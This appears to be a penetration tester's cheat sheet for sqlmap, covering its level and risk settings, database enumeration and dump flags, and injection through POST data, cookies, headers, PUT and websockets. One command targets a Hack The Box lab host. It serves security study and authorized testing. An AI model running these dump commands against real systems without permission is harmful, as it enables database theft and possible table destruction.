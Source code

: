 ```yaml
---
icon: sword
---
```


# SQLmap

{% hint style="info" %}
### <mark style="color:purple;">Operators</mark>

<mark style="color:orange;">**`--batch`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">Non interactive mode.</mark>

<mark style="color:orange;">**`--dbms`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">Type of db being use (Ex.</mark> <mark style="color:orange;">**`mysql`**</mark><mark style="color:purple;">)</mark>

<mark style="color:orange;">**`--threads`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">Goes from</mark> <mark style="color:orange;">**`1`**</mark> <mark style="color:purple;">to</mark> <mark style="color:orange;">**`10`**</mark><mark style="color:purple;">.</mark>

***

### <mark style="color:purple;">Data</mark>

* <mark style="color:purple;">To retrieve everything:</mark>

```sh
--all --dump
```

<mark style="color:orange;">**`--dbs`**</mark> <mark style="color:purple;">-> List all the databases.</mark>

* <mark style="color:purple;">To look at the</mark> <mark style="color:orange;">**`tables`**</mark> <mark style="color:purple;">of a specific database:</mark>

```sh
-D database --tables
```

* &#x20;<mark style="color:purple;">Repeat the same process for</mark> <mark style="color:orange;">**`columns`**</mark><mark style="color:purple;">:</mark>

```sh
-D database -T table --columns
```

* <mark style="color:purple;">For</mark> <mark style="color:orange;">**`dumping`**</mark> <mark style="color:purple;">the data:</mark>

```sh
-D database -T table --dump
```

* <mark style="color:purple;">Or dump just one column:</mark>

```sh
-D database -T table -C column --dump
```

***

### <mark style="color:orange;">**`--level`**</mark>

<mark style="color:purple;">This option sets the</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**level**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">of tests, with values ranging from</mark> <mark style="color:orange;">**`1`**</mark> <mark style="color:purple;">to</mark> <mark style="color:orange;">**`5`**</mark> <mark style="color:purple;">(the default is level 1).</mark>

* <mark style="color:orange;">**`Level 1`**</mark><mark style="color:purple;">: Basic tests, only the most common and least intrusive SQL injection tests are performed.</mark>
* <mark style="color:orange;">**`Level 2-4`**</mark><mark style="color:purple;">: These levels increase the range and types of tests performed, with more advanced and varied testing.</mark>
* <mark style="color:orange;">**`Level 5`**</mark><mark style="color:purple;">: Perform the most comprehensive set of tests, including advanced and highly invasive tests. It increases the risk of being detected or causing issues on the target system.</mark>

***

### <mark style="color:orange;">`--risk`</mark>

<mark style="color:purple;">This option sets the</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**risk**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">level of tests, with values ranging from</mark> <mark style="color:orange;">**`1`**</mark> <mark style="color:purple;">to</mark> <mark style="color:orange;">**`3`**</mark> <mark style="color:purple;">(the default is 1).</mark>

* <mark style="color:orange;">**`Risk 1`**</mark><mark style="color:purple;">: Basic, low-risk tests that are less likely to cause harm or be detected.</mark>
* <mark style="color:orange;">**`Risk 2`**</mark><mark style="color:purple;">: Performs potentially more intrusive or advanced techniques.</mark>
* <mark style="color:orange;">**`Risk 3`**</mark><mark style="color:purple;">: Attempt</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**high-risk tests**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">that could be more aggressive, such as testing for blind injections, time-based techniques, or dropping and modifying tables.</mark>


{% endhint %}

***

{% hint style="info" %}
### <mark style="color:orange;">`HTTP`</mark>

* <mark style="color:purple;">When working with HTTP request is good practice to directly save the request in to a file and use the</mark> <mark style="color:orange;">**`-r`**</mark> <mark style="color:purple;">option.</mark>
* <mark style="color:purple;">Use</mark> <mark style="color:orange;">**`--force-ssl`**</mark> <mark style="color:purple;">when working with</mark> <mark style="color:orange;">**`HTTPS`**</mark><mark style="color:purple;">.</mark>

{% code title="Initiates the injection test" %}
```sh
sqlmap -r login.request --force-ssl --batch
```
{% endcode %}

***

* <mark style="color:purple;">When working with</mark> <mark style="color:orange;">**`POST`**</mark> <mark style="color:purple;">requests you need to use the option</mark> <mark style="color:orange;">**`--data`**</mark><mark style="color:purple;">**:**</mark>

```sh
sqlmap -u "http://example.com" --data "username=*&password=*"
```

***

* For cookies:

```sh
sqlmap  -u "http://example.com" --cookie "cookie=INJECTION"
```

***

### <mark style="color:purple;">Headers</mark>

```sh
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
```

```sh
sqlmap -u "http://example.com" --headers="referer:*"
```

***

### <mark style="color:purple;">Methods</mark>

{% code title="PUT" %}
```sh
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"
```
{% endcode %}
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Websockets</mark>

* <mark style="color:purple;">Install the python</mark> <mark style="color:orange;">**`websocket-client`**</mark> <mark style="color:purple;">module.</mark>
* <mark style="color:purple;">Indicate the</mark> <mark style="color:orange;">**`port`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`data`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```sh
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3
```
{% endcode %}
{% endhint %}
